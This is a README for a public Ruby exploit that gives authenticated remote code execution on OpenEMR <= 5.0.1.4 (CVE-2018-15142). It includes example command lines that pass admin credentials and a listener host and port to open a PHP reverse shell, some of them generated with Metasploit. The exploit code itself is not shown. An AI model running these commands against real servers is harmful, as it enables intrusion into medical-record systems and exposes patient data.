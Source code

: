 # OpenEMR RCE exploit / PoC

> OpenEMR <= 5.0.1.4 - (Authenticated) Remote Code Execution

Exploit for [CVE-2018-15142](https://nvd.nist.gov/vuln/detail/CVE-2018-15142).

[[EDB-49486](https://www.exploit-db.com/exploits/49486)] [[PacketStorm](https://packetstormsecurity.com/files/158711/OpenEMR-5.0.1-Remote-Code-Execution.html)] [[WLB-2020080011](https://cxsecurity.com/issue/WLB-2020080011)]

## Usage

```
$ ruby exploit.rb --help
OpenEMR <= 5.0.1.4 - (Authenticated) Remote Code Execution

Usage:
  exploit.rb manual --root-url <url> --shell <filename> --user <username> --password <password> [--debug]
  exploit.rb semi-auto --root-url <url> --user <username> --password <password> --payload <payload> --lhost <host> --lport <port> [--debug]
  exploit.rb auto --root-url <url> --user <username> --password <password> --lhost <host> --lport <port> [--debug]
  exploit.rb -H | --help

Options:
  -r <url>, --root-url <url>            Root URL (base path) including HTTP scheme, port and root folder
  -s <filename>, --shell <filename>     Filename of the PHP reverse shell payload
  -u <username>, --user <username>      Username of the admin
  -p <password>, --password <password>  Password of the admin
  -m <payload>, --payload <payload>     Metasploit PHP payload
  -h <host>, --lhost <host>             Reverse shell local host
  -t <port>, --lport <port>             Reverse shell local port
  --debug                               Display arguments
  -H, --help                            Show this screen

Examples:
  exploit.rb manual -r http://example.org/openemr -s myRevShell.php -u admin -p pass123
  exploit.rb semi-auto -r http://example.org:8080/openemr -u admin_emr -p qwerty2020 -m 'php/reverse_php' -h 10.0.0.2 -t 8888
  exploit.rb auto -r https://example.org:4443 -u admin_usr -p rock5 -h 192.168.0.2 -t 9999
```

## Modes

- **Auto**: you know the target and have your listener ready, let the exploit handle the rest
- **Semit-auto**: same as auto but you would like to specify another payload than the default `php/reverse_php`
- **Manual**: you already have a custom PHP reverse shell, the exploit lets you specify it

## Requirements

- [httpclient](https://github.com/nahi/httpclient)
- [docopt.rb](https://github.com/docopt/docopt.rb)
- (Optional) [Metasploit Framework](https://github.com/rapid7/metasploit-framework) (`msfvenom` for reverse shell generation in auto and semi-auto modes)

Example for BlackArch:

```
pacman -S ruby-httpclient ruby-docopt metasploit
```

Example using gem:

```
gem install httpclient docopt
```

## Reference

This is a better re-write of [EDB-ID-48515][EDB-ID-48515] and implementation of [EDB-ID-45202 part 2][EDB-ID-45202]:

- using arguments (instead of hardcoded values)
- allowing custom PHP reverse shell or auto generating one with `msfconsole`
- cleaner & more customizable
- using ruby (python2 is deprecated)

This exploit was tested with Ruby 2.7.1.

About [EDB-ID-48515][EDB-ID-48515]:

```
Exploit Author: Musyoka Ian
Date: 2020-05-25
Vendor Homepage: https://www.open-emr.org/
Software Link: https://github.com/openemr/openemr/archive/v5_0_1_3.tar.gz
Dockerfile: https://github.com/haccer/exploits/blob/master/OpenEMR-RCE/Dockerfile 
Version: < 5.0.1 (Patch 4)
Tested on: Ubuntu LAMP, OpenEMR Version 5.0.1.3
References: https://medium.com/@musyokaian/openemr-version-5-0-1-remote-code-execution-vulnerability-2f8fd8644a69
```

[EDB-ID-48515]:https://www.exploit-db.com/exploits/48515
[EDB-ID-45202]:https://www.exploit-db.com/exploits/45202
